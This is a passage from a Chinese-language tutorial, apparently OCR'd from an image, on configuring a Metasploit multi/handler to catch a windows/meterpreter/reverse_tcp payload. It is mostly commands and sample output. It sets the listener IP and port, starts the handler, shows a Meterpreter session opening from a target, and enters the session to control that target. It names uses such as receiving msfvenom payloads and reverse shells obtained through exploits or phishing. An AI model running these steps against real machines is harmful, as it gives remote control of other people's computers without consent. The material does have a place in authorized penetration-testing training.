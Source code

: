   \```bash

  msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp

  msf6 exploit(multi/handler) > set LHOST 192.168.1.100  # 监听本机IP

  msf6 exploit(multi/handler) > set LPORT 4444      # 监听端口

  \```

 

2. **启动监听**：

  \```bash

  msf6 exploit(multi/handler) > run

  \# 或

  msf6 exploit(multi/handler) > exploit

  \```

 

3. **当目标执行Payload后**：

  \- 你会看到类似提示：

   \```bash

   [*] Sending stage (175686 bytes) to 192.168.1.200

   [*] Meterpreter session 1 opened (192.168.1.100:4444 -> 192.168.1.200:49158)

   \```

  \- 输入 `sessions -i 1` 即可进入会话控制目标。

 

\---

 

\### **常见用途：**

\- 接收 `msfvenom` 生成的Payload（如EXE、APK、PHP等）。

\- 接收其他工具触发的反弹Shell（如通过漏洞利用、钓鱼攻击等）。

\- 维持稳定会话（如Meterpreter的加密通信、心跳检测）。

 

\---

 

\### **注意事项：**

1. **Payload必须匹配**：

  \- `handler` 的 `payload`, `LHOST`, `LPORT` 必须与目标执行的Payload完全一致。

2. **防火墙设置**：

  \- 确保本机的防火墙允许 `LPORT` 的入站连接（如4444端口）。
